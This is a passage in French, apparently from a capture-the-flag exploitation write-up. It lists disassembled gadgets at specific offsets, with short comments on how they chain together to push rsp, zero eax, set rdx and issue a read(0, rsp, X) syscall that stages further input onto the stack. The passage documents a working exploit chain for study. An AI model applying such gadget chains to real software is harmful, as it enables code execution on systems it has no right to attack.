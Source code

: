 Je vous épargne donc les 5-6h que j'ai passées à chercher des gadgets utiles à coup de grep et de Ctrl+F, mais voici les gadgets retenus:

```
Pousse la valeur de rsp surla stack
--------------------------------
[0x12e450]
0x0:	push	rcx
0x1:	push	6
0x3:	pushfq	
0x4:	cwde	
0x5:	push	rsp
0x6:	xor	al, 0x85
0x8:	or	al, 0x4b
0xa:	or	eax, 0x4c7dd541
0xf:	xchg	eax, ebp
--------------------------------
Permet de récupérer la valeur de rsp dans rsi poussée précédemment sur la stack
Cependant rax est modifié, nous devrons le remettre à 0.
--------------------------------
[0x1173c0]
0x0:	js	0x2f
0x2:	jl	0xfffffffffffffff3
0x4:	sub	al, 0xf4
0x6:	pop	rsi
0x7:	nop	
0x8:	mov	ebp, 0x1e5b60a4
0xd:	cdq	
0xe:	cmp	ebp, esi
--------------------------------
Permet de remettre eax à 0
--------------------------------
[0x7ffb0]
0x0:	add	r10d, r9d
0x3:	xchg	eax, ecx
0x4:	sbb	r10d, r11d
0x7:	sahf	
0x8:	mov	ebx, 0x9fe53c8b
0xd:	push	rbx
0xe:	std	
0xf:	popfq	
--------------------------------
Permet de mettre une valeur suffisamment grande dans rdx (sur 32 bits, comme on le souhaitait)
--------------------------------
[0x89de0]
0x0:	sub	ch, al
0x2:	pop	rbx
0x3:	and	rax, 0x131de1b
0x9:	mov	edx, 0x2b3c937
0xe:	wait	
0xf:	push	rcx
--------------------------------
Effectue un appel système
On a alors:
rdi = 0
rsi = rsp
rdx = 0x2b3c937
rax = 0
On a bien notre read(0, rsp, X)
--------------------------------
[0xee800]
0x0:	syscall	
0x2:	push	rdi
0x3:	and	eax, 0x73a50503
```